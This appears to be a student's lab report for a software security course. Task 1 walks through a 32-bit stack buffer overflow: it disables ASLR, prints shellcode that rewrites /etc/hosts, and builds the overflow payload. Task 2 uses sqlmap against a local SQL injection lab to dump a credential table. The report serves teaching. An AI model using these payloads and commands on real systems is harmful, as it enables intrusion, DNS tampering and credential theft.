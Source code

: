 # Lab #1,22110020, Ho Thanh Dat, INSE331280E_01FIE
# Task1: Software buffer overflow attack
**Question 1**:
*Compile asm program and C program to executable code:*
- We will use gcc and nasm to compile the C program and asm program to executable code. 
```
gcc -m32 task1.c -o task1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

nasm -f elf32 shellcode.asm
ld -m elf_i386 -o shellcode shellcode.o

```
- f elf32: Ensures the assembly is in 32-bit ELF format.
- ld -m elf_i386: Links the assembled code in 32-bit format.

![Alt text](image.png)
The image given shows that the first step is complete.


*Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.*
- To exploit the vulnerable program, we need the shellcode in hexadecimal. Use objdump to extract the shellcode bytes:
```
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2-6 | tr -s ' ' | cut -d' ' -f2- | tr -d '\n' | sed 's/ //g' | xxd -r -p

```
![Alt text](image-4.png)
Run the following bash script to get hex string of shellcode.
```
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d

- Temporary Disable Address Space Layout Randomization (ASLR):

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

```

- We need to craft an input payload that will:
Fill the buffer (buffer[16]) with some padding.
Overwrite the return address with the address pointing to our shellcode.
```
(gdb) run $(python3 -c 'print("A" * 20)')
```
![Alt text](image-1.png)

![Alt text](image-2.png)
Note the address of the buffer.
I have managed to overflow the buffer and corrupt the EBP (frame pointer) with 0x41414141 ('AAAA' in hex), which indicates that the stack was overflowed up to that point.

- We need to find the exact address to inject shellcode exactly.

```
(gdb) x/32x $esp
```
This will show you the exact buffer location and help you adjust where to inject your shellcode.


![Alt text](image-3.png)

The buffer will be located just above the saved base pointer (EBP) in the stack.
Offset to Buffer:
- The buffer is 16 bytes in size.
- Since the C program has already caused a buffer overflow (as evident from the overwritten EBP), the buffer is likely at 0xffffd770 (ESP) to 0xffffd770 - 16 or 0xffffd760

- Craft the payload with a Python program.

```
echo "import sys, struct; payload = b'\x90' * 100 + b'\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d' + struct.pack('<I', 0xffffd760); sys.stdout.buffer.write(payload)" > create_payload.py
```

- Execute the program.
```
python3 create_payload.py | ./your_vulnerable_program $(python3 -c 'print "A"*20')
```




# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs

```
![Alt text](image-5.png)
The image provide us 2 available databases:  information_schema and sqllab_users

- Use sqlmap to get tables, users information
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```
![Alt text](image-6.png)
In the image given, there are 79 tables in information_schema

![Alt text](image-8.png)
In the image given, there are 1 table in sqllab_users, which is the table need for question 2.
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```

![Alt text](image-7.png)
